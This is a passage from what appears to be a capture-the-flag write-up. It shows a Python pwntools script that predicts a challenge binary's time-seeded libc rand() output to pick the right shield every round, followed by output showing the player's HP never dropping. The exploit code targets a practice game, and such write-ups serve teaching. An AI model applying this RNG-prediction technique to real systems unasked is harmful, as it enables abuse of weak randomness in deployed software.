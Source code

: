 ```python
	libc.rand()				# consume rand for player attack in attack thread
	bossAttack = libc.rand() & 3	# rand for boss attack in defend function

	time.sleep(0.1)

	useShield = getShieldToUse(bossAttack)

	# Send the shield we want to use to the server
	r.sendline(str(useShield))

	# Receive responses and update player states
	checkForStates(r.recv(timeout=1))
	checkForStates(r.recvuntil("Exit\n", timeout=1))

def exploit(r):
	r.recvuntil("Exit\n", timeout=0.2)

	# Select iceball 
	changeskill(3)

	while 1:
		# Keep attacking
		useskill()

r = process.process("./hunting")

# Initialize rng with current time
libc.srand(libc.time(None))

exploit(r)
```

Ok, that made us invincible for now, so it wasn't a problem anymore to kill the boss without losing any health:

```shell
$ python xplshield.py 
[+] Started program './hunting'

Start attack round

 [+] Current level : 1
 [+] Player HP     : 500
 [+] Boss HP       : 100


Start attack round

 [+] Current level : 2
 [+] Player HP     : 500
 [+] Boss HP       : -502

[SNIP]

Start attack round

 [+] Current level : 3
 [+] Player HP     : 500
 [+] Boss HP       : 580


Start attack round

 [+] Current level : 4
```